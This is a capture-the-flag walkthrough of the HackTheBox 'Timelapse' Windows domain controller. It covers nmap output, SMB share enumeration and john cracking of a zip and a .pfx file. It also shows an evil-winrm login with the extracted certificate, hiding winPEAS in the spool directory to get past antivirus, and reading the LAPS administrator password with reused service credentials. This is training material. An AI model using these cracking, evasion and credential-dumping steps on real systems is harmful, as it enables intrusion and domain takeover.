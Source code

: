 ```yaml
---
title: Box - Timelapse
published: true
---
```


HackTheBox CTF Box - Remote access comes in different flavors.


![0xskar](/assets/timelapse01.jpg)

* * *

## Nmaps

```shell
PORT      STATE SERVICE       REASON          VERSION
53/tcp    open  domain?       syn-ack ttl 127
88/tcp    open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2022-07-08 06:01:53Z)
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: timelapse.htb0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? syn-ack ttl 127
464/tcp   open  kpasswd5?     syn-ack ttl 127
593/tcp   open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped    syn-ack ttl 127
5986/tcp  open  ssl/http      syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_ssl-date: 2022-07-08T06:04:57+00:00; +8h00m00s from scanner time.
| ssl-cert: Subject: commonName=dc01.timelapse.htb
| Issuer: commonName=dc01.timelapse.htb
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2021-10-25T14:05:29
| Not valid after:  2022-10-25T14:25:29
| MD5:   e233 a199 4504 0859 013f b9c5 e4f6 91c3
| SHA-1: 5861 acf7 76b8 703f d01e e25d fc7c 9952 a447 7652
| -----BEGIN CERTIFICATE-----
| MIIDCjCCAfKgAwIBAgIQLRY/feXALoZCPZtUeyiC4DANBgkqhkiG9w0BAQsFADAd
| MRswGQYDVQQDDBJkYzAxLnRpbWVsYXBzZS5odGIwHhcNMjExMDI1MTQwNTI5WhcN
| MjIxMDI1MTQyNTI5WjAdMRswGQYDVQQDDBJkYzAxLnRpbWVsYXBzZS5odGIwggEi
| MA0GCSqGSIb3DQEBAQUAA4IBDwAwggEKAoIBAQDJdoIQMYt47skzf17SI7M8jubO
| rD6sHg8yZw0YXKumOd5zofcSBPHfC1d/jtcHjGSsc5dQQ66qnlwdlOvifNW/KcaX
| LqNmzjhwL49UGUw0MAMPAyi1hcYP6LG0dkU84zNuoNMprMpzya3+aU1u7YpQ6Dui
| AzNKPa+6zJzPSMkg/TlUuSN4LjnSgIV6xKBc1qhVYDEyTUsHZUgkIYtN0+zvwpU5
| isiwyp9M4RYZbxe0xecW39hfTvec++94VYkH4uO+ITtpmZ5OVvWOCpqagznTSXTg
| FFuSYQTSjqYDwxPXHTK+/GAlq3uUWQYGdNeVMEZt+8EIEmyL4i4ToPkqjPF1AgMB
| AAGjRjBEMA4GA1UdDwEB/wQEAwIFoDATBgNVHSUEDDAKBggrBgEFBQcDATAdBgNV
| HQ4EFgQUZ6PTTN1pEmDFD6YXfQ1tfTnXde0wDQYJKoZIhvcNAQELBQADggEBAL2Y
| /57FBUBLqUKZKp+P0vtbUAD0+J7bg4m/1tAHcN6Cf89KwRSkRLdq++RWaQk9CKIU
| 4g3M3stTWCnMf1CgXax+WeuTpzGmITLeVA6L8I2FaIgNdFVQGIG1nAn1UpYueR/H
| NTIVjMPA93XR1JLsW601WV6eUI/q7t6e52sAADECjsnG1p37NjNbmTwHabrUVjBK
| 6Luol+v2QtqP6nY4DRH+XSk6xDaxjfwd5qN7DvSpdoz09+2ffrFuQkxxs6Pp8bQE
| 5GJ+aSfE+xua2vpYyyGxO0Or1J2YA1CXMijise2tp+m9JBQ1wJ2suUS2wGv1Tvyh
| lrrndm32+d0YeP/wb8E=
|_-----END CERTIFICATE-----
| tls-alpn: 
|_  http/1.1
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        syn-ack ttl 127 .NET Message Framing
49667/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49673/tcp open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
49674/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49696/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
56949/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
No OS matches for host
TCP/IP fingerprint:
SCAN(V=7.92%E=4%D=7/7%OT=53%CT=%CU=%PV=Y%G=N%TM=62C75889%P=x86_64-pc-linux-gnu)
SEQ(SP=FE%GCD=1%ISR=10E%TI=I%II=I%SS=S%TS=U)
OPS(O1=M539NW8NNS%O2=M539NW8NNS%O3=M539NW8%O4=M539NW8NNS%O5=M539NW8NNS%O6=M539NNS)
WIN(W1=FFFF%W2=FFFF%W3=FFFF%W4=FFFF%W5=FFFF%W6=FF70)
ECN(R=Y%DF=Y%TG=80%W=FFFF%O=M539NW8NNS%CC=Y%Q=)
T1(R=Y%DF=Y%TG=80%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=N)
T3(R=N)
T4(R=N)
U1(R=N)
IE(R=Y%DFI=N%TG=80%CD=Z)

TCP Sequence Prediction: Difficulty=254 (Good luck!)
IP ID Sequence Generation: Incremental
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 7h59m59s, deviation: 0s, median: 7h59m58s
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2022-07-08T06:04:17
|_  start_date: N/A
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 24458/tcp): CLEAN (Timeout)
|   Check 2 (port 32357/tcp): CLEAN (Timeout)
|   Check 3 (port 13478/udp): CLEAN (Timeout)
|   Check 4 (port 22941/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
```

* * * 

## Enumerate SMB

- List shares ``smbclient -L 10.10.11.152``
- We find a backup file and some other files lets wget everything
- The winrm_backup.zip is password protected, lets feed to john.

1. ``zip2john winrm_backup.zip > winrm_backuphash``
2. ``john winrm_backuphash --wordlist=/usr/share/seclists/Passwords/rockyou.txt``
3. supremelegacy lets open the zip

- We're left with ``legacyy_dev_auth.pfx`` which is some sort of security cert.

Being a noob, and trying to figure out what a .pfx file even is I came accross this site: [https://www.ibm.com/docs/en/arl/9.7?topic=certification-extracting-certificate-keys-from-pfx-file](https://www.ibm.com/docs/en/arl/9.7?topic=certification-extracting-certificate-keys-from-pfx-file). So gong to follow these steps and see where that takes me.

1. ``openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out legacyy.key``

- Okay so we're promt for a password...
- After doing some searching looks like we can use john for this.

1. ``pfx2john legacyy_dev_auth.pfx > legacyy_hash``
2. ``john legacyy_hash --wordlist=/usr/share/seclists/Passwords/rockyou.txt --rule /usr/share/john/rules/rockyou-30000.rule``
3. We now have the password to access the key.
4. Extract the private key ``openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out legacyy.key -nodes`` we need to add -noDES to the end to avoid encryption
5. Extract the certificate ``openssl pkcs12 -in legacyy_dev_auth.pfx -clcerts -nokeys -out legacyy.cert``
6. Decrypt the private key ``openssl rsa -in legacyy.key -out legacyy-decrypt.key``

- Remove the header from the .key
- Now we should be able to use evil-winrm to access the system.

* * * 

## Evil-WinRM & Root

- ``evil-winrm -S -k legacyy.key -c legacyy.cert -i 10.10.11.152``

Now that we're connected we can continue with enumeration.

- ``whoami /user``
- ``whoami /priv``
- Upload winpeas ``upload winPEASx64.exe``
- We cant run this it thinks its a virus, but maybe it will run in spool dir

1. ``cd "C:\Windows\System32\spool\drivers\color"``
2. ``upload winPEASx64.exe``

- Not much but there is Console History

![0xskar](/assets/timelapse02.png)

- Because svc_deploy is being used here - We can reuse these credentials to pass commands via PS-Remoting using this formula ``invoke-command -computername localhost -credential $c -port 5986 -usessl -SessionOption $so -scriptblock {net user svc_deploy}``

```shell
User name                    svc_deploy
Full Name                    svc_deploy
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            10/25/2021 12:12:37 PM
Password expires             Never
Password changeable          10/26/2021 12:12:37 PM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   7/8/2022 5:26:09 PM

Logon hours allowed          All

Local Group Memberships      *Remote Management Use
Global Group memberships     *LAPS_Readers         *Domain Users
The command completed successfully.
```

- So we can use ``svc_deploy`` to extract the ``Local Administrator`` password because they are a member of the ``LAPS_Readers`` group.

- Check for LAPS Password using AD-Module ``invoke-command -computername localhost -credential $c -port 5986 -usessl -SessionOption $so -scriptblock {Get-ADComputer -Filter * -Properties ms-Mcs-AdmPwd, ms-Mcs-AdmPwdExpirationTime}``

```shell
PSComputerName              : localhost
RunspaceId                  : ffe8479d-c003-4175-a215-7adbabdd5090
DistinguishedName           : CN=DC01,OU=Domain Controllers,DC=timelapse,DC=htb
DNSHostName                 : dc01.timelapse.htb
Enabled                     : True
ms-Mcs-AdmPwd               : d)#YQuU5gTQi%e6Eb(k5-VQH
ms-Mcs-AdmPwdExpirationTime : 133021880961083881
Name                        : DC01
ObjectClass                 : computer
ObjectGUID                  : 6e10b102-6936-41aa-bb98-bed624c9b98f
SamAccountName              : DC01$
SID                         : S-1-5-21-671920749-559770252-3318990721-1000
UserPrincipalName           :
```

- We can now use ``evil-winrm`` to PS-Remote with this credential.
- ``evil-winrm -S -u 'Administrator' -p 'd)#YQuU5gTQi%e6Eb(k5-VQH' -i 10.10.11.152``
- root.txt is on the admin's desktop

* * *
